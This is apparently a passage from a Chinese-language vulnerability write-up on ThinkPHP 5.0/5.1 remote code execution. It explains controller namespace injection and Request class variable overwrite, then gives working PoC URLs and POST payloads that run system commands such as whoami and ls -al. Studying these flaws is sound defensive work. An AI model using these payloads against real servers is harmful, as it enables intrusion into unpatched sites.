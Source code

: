 thinkphp/library/think/Loader.php:

![image-20210224104838156](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150528.png)

原理类似，在`App::run()`方法里面，`Loader::controller`进行调度的时候，当`$name`含有`\`时会直接将其作为类的命名空间路径，导致我们可以任意方法调用。比如：

* thinkphp/library/think/App.php:

![image-20210224111256654](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210312150543.png)

构造poc:

```
http://127.0.0.1/public/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
http://127.0.0.1/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

eval因为不是函数不能直接回调，在特定php版本情况下可以使用assert直接RCE，或者利用其他函数读写文件。

### 需要注意的问题

在https://xz.aliyun.com/t/3570#toc-3这篇文章里面提到：

>因为默认配置会判断是否自动转换控制器，将控制器名变成小写
>
>又因为`Loader.php::autoloadwin`在win环境下严格区分大小写，所以导致有些类加载不到

但是我在Kali下经过小写转换同样也没办法加载到，可能是因为Linux本来就区分大小写？

如此一来，着手点只有框架在加载的时候就已经加载的类了

## RCE-Request核心类变量覆盖

> ThinkPHP版本：5.0.0<=ThinkPHP5<=5.0.23 、5.1.0<=ThinkPHP<=5.1.30
>
> 参考：
>
> https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C10.md

### 概述

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210416105559.png)

Request核心类**$method** 来自可控的 **$_POST** 数组，而且在获取之后没有进行任何检查，直接把它作为 **Request** 类的方法进行调用，同时，该方法传入的参数是可控数据 **$_POST** 。导致可以随意调用 **Request** 类的部分方法

payload：

```
http://php.local/thinkphp5.0.5/public/index.php?s=index
post
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&filter[]=system&method=GET&get[]=whoami

# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
```
